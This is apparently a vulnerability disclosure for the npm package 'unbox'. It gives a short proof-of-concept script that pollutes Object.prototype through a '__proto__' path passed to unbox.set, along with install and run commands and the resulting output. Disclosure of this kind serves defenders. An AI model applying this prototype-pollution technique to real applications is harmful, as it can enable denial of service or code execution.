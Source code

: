 # Description

`unbox` is vulnerable to `Prototype Pollution`.
This package fails to restrict access to prototypes of objects, allowing for modification of prototype behavior using a `proto` payload, which may result in Sensitive Information Disclosure/Denial of Service(DoS)/Remote Code Execution.


# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var unbox = require("unbox")
var myObject = {}
console.log("Before : " + {}.polluted);
unbox.set(myObject, '__proto__.polluted', 'Yes! Its Polluted');
console.log("After : " + {}.polluted);

```
2. Execute the following commands in another terminal:

```
npm i unbox # Install affected module
node poc.js #  Run the PoC
```
3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```

